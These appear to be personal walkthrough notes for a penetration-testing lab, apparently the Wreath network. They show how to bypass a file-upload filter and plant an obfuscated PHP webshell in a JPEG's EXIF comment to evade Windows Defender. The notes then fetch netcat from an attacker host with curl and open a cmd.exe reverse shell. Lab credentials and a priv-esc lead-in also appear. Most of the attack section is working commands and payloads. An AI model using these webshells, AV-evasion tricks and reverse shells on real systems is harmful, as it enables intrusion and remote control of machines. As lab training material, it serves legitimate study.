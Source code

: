 We can now go to 10.200.100.100/resources

We already have Thomas' creds from earlier

user: Thomas
pass: i<3ruby

We now reach the upload page.

We need to bypass the two filters discussed earlier.

The first one can be bypassed by changing the extension to `.jpeg.php`

The second getimagesize() filter we will need to use exiftool

We will also need to bypass AV on Thomas' machine

---

### Making a php script that will bypass AV

We will need to assume Windows Defender is on the machine.

We will build the payload normally then obfuscate it using tools.

```php
<?php  
    $cmd = $_GET["wreath"];  
    if(isset($cmd)){  
        echo "<pre>" . shell_exec($cmd) . "</pre>";  
    }  
    die();  
?>
```

Here we check to see if a GET parameter called "wreath" has been set. If so, we execute it using `shell_exec()`, wrapped inside HTML `<pre>` tags to give us a clean output. We then use `die()` to prevent the rest of the image from showing up as garbled text on the screen.  

This is slightly longer than the classic PHP one-liner webshell (`<?php system($_GET["cmd"]);?>`) for two reasons:

1.  If we're obfuscating it then it will become a one-liner anyway
2.  Anything _different_ is good when it comes to AV evasion

---

We now need to obfuscate this payload.

There are a variety of measures we could take here, including but not limited to:

-   Switching parts of the exploit around so that they're in an unusual order
-   Encoding all of the strings so that they're not recognisable
-   Splitting up distinctive parts of the code (e.g. `shell_exec($_GET[...])`)

We will use the tool found here:

https://www.gaijin.at/en/tools/php-obfuscator

After obfuscating the code, we also need to escape the dollar signs

`<?php \$p0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$p0)){echo base64_decode('PHByZT4=').shell_exec(\$p0).base64_decode('PC9wcmU+');}die();?>`

---

We now inject this into our jpeg using exif tool

`exiftool -Comment="<?php \$p0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$p0)){echo base64_decode('PHByZT4=').shell_exec(\$p0).base64_decode('PC9wcmU+');}die();?>" shell-k.jpeg.php`

---

Now we upload the file and try to get a shell 

We can execute commands with wreath=

`http://10.200.100.100/resources/uploads/shell-k.jpeg.php?wreath=COMMAND`

---

### full reverse shell

Realistically we have several options here:

-   Powershell tends to be the go-to for Windows reverse shells. Unfortunately Defender knows exactly what PowerShell reverse shells look like, so we'd have to do some serious obfuscation to get this to work.
-   We could try to get a PHP reverse shell as we know the target has a PHP interpreter installed. Windows PHP reverse shells tend to be iffy though, and again, may trigger Defender.
-   We could generate an executable reverse shell using msfvenom, then upload and activate it using the webshell. Again, msfvenom shells tend to be very distinctive. We could use the [Veil Framework](https://www.veil-framework.com/) to give us a meterpreter shell executable that might bypass Defender, but let's try to keep this manual for the time. Equally, [shellter](https://www.shellterproject.com/) (though old) might give us what we need. There are easier options though.
-   We could upload netcat. This is the quick and easy option.

We need a version of netcat that can bypass Windows Defender

`git clone https://github.com/int0x33/nc.exe/`

We could also cross compile netcat wtih gcc or mingw

---

WE NEED TO SEND THE nc64.exe version to the machine
(this version has already been cross compiled and will bypass AV)

`curl http://ATTACKER_IP/nc.exe -o c:\\windows\\temp\\nc-USERNAME.exe`


curl http://10.50.101.131/nc64.exe -o c:\\windows\\temp\\nc-k.exe

Now that we have nc on the box, we can send a reverse shell


`powershell.exe c:\\windows\\temp\\nc-USERNAME.exe ATTACKER_IP ATTACKER_PORT -e cmd.exe`

powershell.exe c:\\windows\\temp\\nc-k.exe 10.50.101.131 20000 -e cmd.exe

---

Now that we have a shell we can priv esc